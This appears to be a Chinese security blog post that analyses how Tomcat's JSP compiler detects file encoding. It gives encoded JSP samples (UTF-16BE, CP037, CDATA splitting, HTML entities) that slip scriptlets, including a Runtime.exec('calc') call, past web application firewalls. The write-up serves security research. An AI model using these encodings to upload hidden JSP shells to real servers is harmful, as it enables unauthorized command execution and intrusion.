









# 1.开个头

事情是这样的，某一天，笔者闲着无聊，对着Tomcat的示例文件到处点点，希望寻找出点什么，意外发现Tomcat的示例文件中一些有趣的示例：



随后笔者翻开Tomcat的解析代码，对其进行了一番静态代码审阅，果然有蹊跷，后面又调试看了看。

# 2 代码要点简析

对于脚本jsp文件，会通过EncodingDetector进行字符集类型的探测，该处代码要点较多，也是主逻辑，所以整片代码放上来了。

apache-tomcat-9.0.35/lib/jasper.jar!/org/apache/jasper/compiler/ParserController.class：determineSyntaxAndEncoding



编码探测过程在该类初始化方法中进行，首先会使用processBom方法，根据文件的前4个字节探测字符集类型，这里的代码和xerces的Magic Charset中的字符集类型探测代码有着异曲同工之妙...；之后会使用getPrologEncoding方法尝试获取文件的declare charset，declare charset优先级高于magic charset。

apache-tomcat-9.0.35/lib/jasper.jar!/org/apache/jasper/compiler/EncodingDetector.class



processBom方法会调用parseBom方法根据文件头4个字节返回字符集类型：



getPrologEncoding将文件流传入xml解析，底层还是用的xerces，如果编码类型为xerces不支持的，这里会暂时忽略掉异常。



但并非processBom或getPrologEncoding得到的字符集就能被成功，后续创建字符流读取器会检查自身是否支持这些字符集。

这一步中也会做字符集别名的映射查找，一番操作过后，如果该字符集未读取器不支持的，最后会抛出异常。如UTF-32BE字符集，在getPrologEncoding方法中会抛出异常（不支持），在processBom中虽然不会抛出异常，但是其过程中得到的字符集名称为ISO-10646-UCS-4。而在InputStreamReader中不支持该字符集，也无别名映射（想想也是，ISO-10646-UCS-4这个名字根本也无法判断大端小端，而且代码流程中也没有传递大小端这一变量）。

jdk1.8.0_191/src.zip!/java/nio/charset/Charset.java




ParserController.class：determineSyntaxAndEncoding方法中，如果文件没有带BOM，会触发getPageEncodingForJspSyntax函数流程

apache-tomcat-9.0.30-src/java/org/apache/jasper/compiler/ParserController.java，getPageEncodingForJspSyntax



从代码来看，指令标签有好几种：

```
<jsp:directive.page  /> 
```

```
<%@ page  %>
```

声明字符编码的方式至少有两种：

```
pageEncoding="UTF-16be"
```

```
contentType="charset=utf-16be"
```

# 2 实战讲解

## 2.1 charset

通过阅读代码流程，我们可以得到如下表格，该表格用于Magic Charset方法，而XML的Declare Charset也可以使用，笔者在这里就不再描述了，参考笔者的关于xerces解析的文章即可 [WAF Bypass之xerces解析](https://www.anquanke.com/post/id/209826)。



有如下原始JSP文件，jsp_xml.jsp:

```
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
out.write("I'm turn1tup!");
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>
```

使用UTF-16BE字符集进行编码：

```
%00%3C%00%3F%00x%00m%00l%00%20%00v%00e%00r%00s%00i%00o%00n%00%3D%00%22%001%00.%000%00%22%00%20%00e%00n%00c%00o%00d%00i%00n%00g%00%3D%00%22%00U%00T%00F%00-%001%006%00b%00e%00%22%00%3F%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00r%00o%00o%00t%00%20%00x%00m%00l%00n%00s%00%3A%00j%00s%00p%00%3D%00%22%00h%00t%00t%00p%00%3A%00/%00/%00j%00a%00v%00a%00.%00s%00u%00n%00.%00c%00o%00m%00/%00J%00S%00P%00/%00P%00a%00g%00e%00%22%00%0A%00%20%00%20%00v%00e%00r%00s%00i%00o%00n%00%3D%00%22%001%00.%002%00%22%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00d%00i%00r%00e%00c%00t%00i%00v%00e%00.%00p%00a%00g%00e%00%20%00c%00o%00n%00t%00e%00n%00t%00T%00y%00p%00e%00%3D%00%22%00t%00e%00x%00t%00/%00h%00t%00m%00l%00%22%00/%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00d%00e%00c%00l%00a%00r%00a%00t%00i%00o%00n%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00d%00e%00c%00l%00a%00r%00a%00t%00i%00o%00n%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00s%00c%00r%00i%00p%00t%00l%00e%00t%00%3E%00%0A%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%0A%00%3C%00/%00j%00s%00p%00%3A%00s%00c%00r%00i%00p%00t%00l%00e%00t%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00t%00e%00x%00t%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00t%00e%00x%00t%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00r%00o%00o%00t%00%3E%00%0A
```

使用CP037进行编码：

```
Lo%A7%94%93%40%A5%85%99%A2%89%96%95%7E%7F%F1K%F0%7F%40%85%95%83%96%84%89%95%87%7E%7F%83%97%F0%F3%F7%7Fon%25L%91%A2%97z%99%96%96%A3%40%A7%94%93%95%A2z%91%A2%97%7E%7F%88%A3%A3%97zaa%91%81%A5%81K%A2%A4%95K%83%96%94a%D1%E2%D7a%D7%81%87%85%7F%25%40%40%A5%85%99%A2%89%96%95%7E%7F%F1K%F2%7Fn%25L%91%A2%97z%84%89%99%85%83%A3%89%A5%85K%97%81%87%85%40%83%96%95%A3%85%95%A3%E3%A8%97%85%7E%7F%A3%85%A7%A3a%88%A3%94%93%7Fan%25L%91%A2%97z%84%85%83%93%81%99%81%A3%89%96%95n%25La%91%A2%97z%84%85%83%93%81%99%81%A3%89%96%95n%25L%91%A2%97z%A2%83%99%89%97%A3%93%85%A3n%25%96%A4%A3K%A6%99%89%A3%85M%7F%C9%7D%94%40%A3%A4%99%95%F1%A3%A4%97Z%7F%5D%5E%25La%91%A2%97z%A2%83%99%89%97%A3%93%85%A3n%25L%91%A2%97z%A3%85%A7%A3n%25La%91%A2%97z%A3%85%A7%A3n%25La%91%A2%97z%99%96%96%A3n%25
```

编码方式可参考 https://github.com/turn1tup/scripts/blob/master/charset_test.py ：



对于以下代码，我们也可以对其进行编码

```
<% out.write("I/'m turn1tup!");  %>
```

使用UTF-16BE编码，需带BOM标识：

```
%FE%FF%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00%25%00%3E
```

## 2.2 XML特性

参考文章 [WAF Bypass之xerces解析](https://www.anquanke.com/post/id/209826)，这里举一些例子：

```jsp
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
<![CDATA[o]]>u<![CDATA[t.writ]]><![CDATA[e]]>("I'm turn1tup!");
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>

```

HTML实体编码，包括16进制、10进制、字符实体：

```jsp
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
&#111;&#117;&#116;&#46;&#119;&#114;&#105;&#116;&#101;&#40;&#34;&#73;&#39;&#109;&#32;&#116;&#117;&#114;&#110;&#49;&#116;&#117;&#112;&#33;&#34;&#41;&#59;
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>

```

## 2.3 PageEncoding

指令标签<%@方式：

```
<%@ page contentType="charset=utf-16be" %>%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```

指令标签<jsp:directive.page  /> 方式

```
<jsp:directive.page contentType="charset=utf-16be"/>%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```

PageEncoding声明方式

```
<jsp:directive.page pageEncoding="utf-16be"/>%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```


标签的位置也可以变化：

```
%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E<%@ page contentType="charset=utf-16be"
```

# 3 结语

好吧，还是有点意思。